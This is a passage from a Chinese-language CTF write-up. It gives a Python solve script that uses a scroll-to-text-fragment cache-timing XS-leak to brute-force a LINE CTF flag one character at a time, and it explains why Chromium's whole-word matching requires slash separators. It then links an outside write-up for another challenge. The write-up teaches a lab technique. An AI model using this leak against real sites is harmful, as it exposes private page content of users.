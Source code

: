 ``` py
def run():
  known = "LINECTF{"
  while True:
    for char in "0123456789abcdef":
      print("trying:" + known+char)

      resp = upload_image()
      img_url = resp["img_url"]
      print("img url:" + img_url)

      img_id = create_post(img_url)
      print("img id:" + img_id)

      share_res = share(img_id, known + char)
      print("resp:" + share_res)

      sleep(3)
      cache_resp = check_cached(img_url)
      print("cached:" + cache_resp)
      if cache_resp == "HIT":
        known += char + "/"
        print(known)
        break


run()
```

另外，maple3142 的 writeup 又解決了我一個疑惑，那就是為什麼 flag 要有那些 `/`？原來是因為 Chromium 為了避免這種 xsleak，所以在判斷 SSTF 的時候一定要匹配到整個單字才會 scroll。

舉例來說，如果頁面上有這串字：`Hello world`，你 text fragment 指定 `He`，是不會理你的，要 `Hello` 才會，這也是為什麼這題要用 `/` 來分割，因為沒分割的話就沒辦法一個字一個字來 leak。

## me7-ball(2 solves)

這題看起來好像跟 crypto 比較有關就沒仔細看了，直接貼 Super HexaGoN 的 writeup：https://gist.github.com/mdsnins/2912b9656c837e5190364136b307c682

